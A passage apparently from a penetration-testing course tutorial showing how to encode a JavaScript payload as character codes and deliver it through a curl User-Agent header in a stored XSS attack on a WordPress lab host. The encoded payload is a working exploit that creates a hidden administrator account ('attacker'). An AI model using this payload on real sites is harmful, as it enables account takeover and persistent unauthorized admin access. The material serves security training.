 After clicking _Compress JavaScript_, we’ll copy and locally save the minified output.

As a final step, we’ll encode the minified JavaScript code, so any bad characters won't interfere with sending the payload.

We can do this using the following function:

```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

> Listing 29 - JS Encoding JS Function

The _encode_to_javascript_ function will parse the minified JS string parameter and convert each character into the corresponding UTF-16 integer code using the [_charCodeAt_](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charCodeAt) method.

Let's run the function from the browser's console.

![Figure 31: Encoding the Minified JS with the Browser Console](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/90fa49369352cbf0dc80ea7dd2c19564-xss7.png)

Figure 31: Encoding the Minified JS with the Browser Console

We are going to decode and execute the encoded string by first decoding the string with the [_fromCharCode_](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode) method, then running it via the [_eval()_](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) method. Once we have copied the encoded string, we can insert it with the following **curl** command and launch the attack:

```
kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```
